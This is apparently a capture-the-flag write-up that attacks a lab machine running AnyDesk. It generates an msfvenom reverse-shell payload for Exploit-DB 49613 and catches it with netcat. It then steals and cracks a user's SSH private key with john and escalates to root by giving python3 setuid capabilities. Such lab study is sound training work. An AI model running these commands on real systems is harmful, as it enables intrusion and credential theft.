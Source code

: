 # Enumeration

Let's start with a full nmap scan. We follow up with a detailed scan of the open port(s).

![028418fe88c9edef620371a7cf70c46e.png](./_resources/028418fe88c9edef620371a7cf70c46e.png)

Rustscan was giving some unusual results, so I ran the full nmap scan and found another open port with an unknown service running on it.

![9d992c674533388b9ecaff8ddfe5eef2.png](./_resources/9d992c674533388b9ecaff8ddfe5eef2.png)

We'll scan these ports again with a more detailed nmap scan; here I included the new port just in case.

![dfaacd0aed83a59b0f6df4257aafa31d.png](./_resources/dfaacd0aed83a59b0f6df4257aafa31d.png)

It looks like port 46547 is closed, so we'll ignore it. Note that the ssl certificate gives us some information about the service running on port 7070.

`| ssl-cert: Subject: commonName=AnyDesk Client`

So, the service running on port 7070 seems to be AnyDesk.

<br>

# Exploitation

Let's see if we can find any exploits for AnyDesk. [Exploit-db](https://www.exploit-db.com/exploits/49613) is the first result that comes up when Googling "AnyDesk exploit", so let's take a look.

![f97c1a896cbef7ce16656f6ba5a99fe7.png](./_resources/f97c1a896cbef7ce16656f6ba5a99fe7.png)

We download the python script and examine its contents. For the exploit to work, we need to follow the commented suggestion in the python script and generate a payload with msfvenom using:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<attacking machine> LPORT=<listening port> -b "\x00\x25\x26" -f python -v shellcode
```

![72d8e0348999ac2b8118327bea7fc83f.png](./_resources/72d8e0348999ac2b8118327bea7fc83f.png)

We paste the payload in the appropriate location in the python script.

![d65e8a145a148ccbeef8e5bfcdcb82b5.png](./_resources/d65e8a145a148ccbeef8e5bfcdcb82b5.png)

We also need to change the target IP. Note that the port number **should not** be altered. (This confused me, as I was changing it to 7070 only to have the script fail. Some googling helped.)

![91c239de02c66d66b2b87a2e325bc839.png](./_resources/91c239de02c66d66b2b87a2e325bc839.png)

Now set up a netcat listener on the chosen port and run the exploit.

![6c45a028f01f76d7f40119a10fc2e3b5.png](./_resources/6c45a028f01f76d7f40119a10fc2e3b5.png)

(Note: For some reason, changing the LPORT value throughout the above process made the script fail for me. I had to use the default of 4444 to get the exploit to work. This really shouldn't matter; perhaps just a bit of bad luck?)

![8df0915cb0a66d19b8def222f5e9586d.png](./_resources/8df0915cb0a66d19b8def222f5e9586d.png)

Success! We now have access to annie's account. From here, we easily find the `user.txt` flag.

![490bedc5456e29ad7e87d3be58688837.png](./_resources/490bedc5456e29ad7e87d3be58688837.png)

At this point, I lost the shell and couldn't get back in with the above method. I tried generating another payload with msfvenom and changing the LPORT value, but to no avail. Resetting the box seemed to fix the issue.
<br>

# Post-Exploitation

Before looking for privesc methods, let's upgrade our shell using `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Within annie's home directory, we find the `.ssh` directory which contains a private RSA key.

![8f372c3a04af6485bf28e24b8163a829.png](./_resources/8f372c3a04af6485bf28e24b8163a829.png)

If we want, we could use ssh2john to parse the private key, then use john to find the private key password. This would allow us to ssh directly into the machine as annie. While not strictly necessary, let's do it for the sake of completeness (and to have an easy way back in, just in case the connection gets dropped).

Let's save the entirety of the contents of the `id_rsa` file to a file on our local machine, which we also call `id_rsa`. We can use john to find the password to annie's private key. First, run `ssh2john id_rsa > id_rsa.txt` to parse the keyfile. Now run john using the `rockyou.txt` wordlist with `john id_rsa.txt --wordlist=/usr/share/wordlists/rockyou.txt`.

![2ba481c32c197f562a66352845d4f9e4.png](./_resources/2ba481c32c197f562a66352845d4f9e4.png)

Now use `chmod 600` to give the private key the correct permissions for ssh. Then ssh in using `ssh -i id_rsa annie@10.10.115.191` together with the password john found.

![f8826eed500093edc23c9352c704ec5b.png](./_resources/f8826eed500093edc23c9352c704ec5b.png)

Now let's actually begin our search for privesc methods. Start by looking for binaries with the SUID bit set using `find / -type f -perm -u=s 2>/dev/null`.

![17c72cafd0bd0aa0662b6771aeac8b90.png](./_resources/17c72cafd0bd0aa0662b6771aeac8b90.png)

The very first one on the above list is of interest; `setcap` is a program which allows us to set file capabilities. If certain binaries have capabilities set, we can [use this for privesc](https://gtfobins.github.io/#+capabilities). The capability we want to set here is `cap_setuid+ep`, and we are going to give python this capability (since python shows up on the GTFOBins list, and we know the target machine is running python3). The strategy that I used comes from [this article](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) on privesc using capabilities.

If we try to set the capabilities in the python's standard directory, we encounter an errror. So let's copy python3 to annie's home directory and then try setting the capability:

```
cp /usr/bin/python3 ~/python3
setcap cap_setuid+ep ~/python3
```

We can verify that this worked by using `getcap`:

![7cd4dd0484b58344fdfcd439ee00cba9.png](./_resources/7cd4dd0484b58344fdfcd439ee00cba9.png)

Now we can use the one-liner from GTFOBins: `./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`.

![499479f0a9f5e00284095b6ad66fb484.png](./_resources/499479f0a9f5e00284095b6ad66fb484.png)

We quickly find the `root.txt` flag.

![ee8ac752724e5af6f73cc5b939dfaf4d.png](./_resources/ee8ac752724e5af6f73cc5b939dfaf4d.png)

(We also find a THM voucher, but we're a bit too late! Oh well.)

